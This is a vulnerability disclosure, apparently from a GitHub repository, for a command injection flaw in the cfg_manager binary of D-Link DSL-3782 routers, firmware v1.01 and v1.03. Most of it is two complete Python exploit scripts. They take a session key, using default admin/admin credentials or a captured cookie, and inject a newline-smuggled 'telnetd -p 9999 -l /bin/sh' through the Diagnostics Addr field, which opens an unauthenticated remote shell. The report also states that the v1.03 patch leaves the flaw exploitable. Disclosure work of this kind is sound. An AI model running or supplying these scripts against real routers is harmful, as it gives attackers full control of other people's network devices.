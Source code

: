 Vendor of the products:　D-Link

Reported by: 　　　　　 [x.sunzh@gmail.com](mailto:x.sunzh@gmail.com)

Affected products:　　　DSL-3782 v1.01, DSL-3782 v1.03

# Command injection

## Code in cfg_manger

<img src="imgs/cmdi_code1.png" style="zoom: 67%;" />

The binary program cfg_manager first calls *sprintf*, concatenates the string `"traceroute -n -m 10 -w 2 %s > /tmp/var/alpha_diag.tmp 2>&1"` with the value read from `Addr`, and then passes it to **byte_4C0160**. Then, cfg_manger runs the sub_474c78 function in another thread via *pthread_create*.

![image-20220424193836070](./imgs/cmdi_code2.png)

In the sub_474c78 function, **byte_4C0160** is executed as a parameter of *system*.

## In v1.01

### exp

```python
import requests
import urllib
from pwn import *
import os
from time import sleep


context.binary = "./_DSL-3782_A1_EU_1.01_07282016.bin.extracted/squashfs-root/userfs/bin/cfg_manager"
context.endian = "big"
context.arch = "mips"

server = "192.168.1.1"
main_url = "http://192.168.1.1:80"

def login():
    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        }
    # url = main_url + "/cgi-bin/Login.asp?User=admin&Pwd=admin&_=1640832458081"
    url = main_url + "/cgi-bin/Login.asp?User=admin&Pwd=admin&_=1650704806457 "
    resp = s.get(url,headers=headers,timeout=10)
    print resp.text


def get_session_key():
    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        }
    url = main_url + "/cgi-bin/get/New_GUI/get_sessionKey.asp"
    resp = s.get(url,headers=headers,timeout=10)
    sessionKey = resp.text
    print(sessionKey)
    return sessionKey


def exp(sessionKey=None):
    # libc_base = input('libc_base:')
    cmd = "%0autelnetd -p 9999 -l /bin/sh%0aecho yab..."
    
    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        }
    params = {
        "Type":"p", "sessionKey":urllib.unquote(sessionKey),
        "Addr":urllib.unquote(cmd)
        }
    url = main_url + "/cgi-bin/New_GUI/Set/Diagnostics.asp"
    resp = s.post(url,data=params,headers=headers,timeout=100000)
    print resp.text


if __name__ == '__main__':
    print '\n[*] Connection %r' % main_url
    login()
    print '[*] Getting session key'
    sessionKey = get_session_key()
    print '[*] Sending payload'
    exp(sessionKey=sessionKey) 
    print '[*] Running Telnetd Service'
    print '[*] Opening Telnet Connection\n'
    sleep(2)
    os.system('telnet ' + str(server) + ' 9999')
```

### Attack effect

![image-20220424192643324](./imgs/cmdi_effect_1.01.png)



## In v1.03

In fact, the patch in v1.03 has very little impact on the command injection vulnerability I reported.

### exp

Now, the attacker needs to first log in to the router's management page to obtain the "*SESSIONID_AUTH*" field value. Then, the only thing he needs to do is to run the exploit script below with the "*SESSIONID_AUTH*" he just got.

```python
import requests
import urllib
from pwn import *
import os
from time import sleep


context.binary = "../new/_DSL-3782_A1_EU_1.03_04042018.bin.extracted/squashfs-root/userfs/bin/cfg_manager"
context.endian = "big"
context.arch = "mips"

server = "192.168.1.1"
main_url = "http://192.168.1.1:80"


def get_session_key(AUTH):
    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        "Cookie": "SESSIONID_AUTH=%s" %AUTH
        }
    url = main_url + "/cgi-bin/get/New_GUI/get_sessionKey.asp"
    resp = s.get(url,headers=headers,timeout=10)
    sessionKey = resp.text
    print(sessionKey)
    return sessionKey


def exp(sessionKey=None, AUTH=''):
    cmd = "%0autelnetd -p 9999%0a"
    
    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        "Cookie": "SESSIONID_AUTH=%s" %AUTH
        }
    params = {
        "Type":"t", "sessionKey":urllib.unquote(sessionKey),
        "Addr":urllib.unquote(cmd),
        "SESSIONID_AUTH": urllib.unquote(AUTH)
        }
    url = main_url + "/cgi-bin/New_GUI/Set/Diagnostics.asp"
    resp = s.post(url,data=params,headers=headers,timeout=100000)
    print resp.text


if __name__ == '__main__':
    print '\n[*] Connection %r' % main_url
    print '[*] Getting session key'
    a = input() # input the SESSIONID_AUTH
    sessionKey = get_session_key(a)
    print '[*] Sending payload'
    exp(sessionKey=sessionKey, AUTH=a) 
    print '[*] Running Telnetd Service'
    print '[*] Opening Telnet Connection\n'
    sleep(2)
    os.system('telnet ' + str(server) + ' 9999')

```

### Attack effect

The attacker:

![image-20220613203931436](./imgs/cmdi_effect1_1.03.png)

The target:

![image-20220613204017431](./imgs/cmdi_effect2_1.03.png)

